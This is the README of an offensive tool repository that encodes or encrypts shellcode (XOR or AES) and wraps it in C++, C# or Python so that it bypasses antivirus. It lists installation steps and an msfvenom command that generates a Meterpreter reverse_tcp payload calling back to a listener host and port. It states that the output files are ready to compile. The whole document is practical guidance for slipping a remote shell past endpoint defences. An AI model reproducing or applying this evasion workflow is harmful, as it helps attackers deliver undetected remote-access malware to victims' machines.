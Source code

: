 Shellcode wrapper written in Python and C++ to bypass antivirus
============

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C# and Python:
	- `encryptedShellcodeWrapper.cpp` - for now supports **only** XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and AES encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and AES encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: 
* cd into the folder
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), so something like:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `aes`
  - desired output: `base64`, `cpp`, `csharp`, `python`

This will generate C#, C++ and Python code file in the `result` folder. Those files are ready to use/compile.
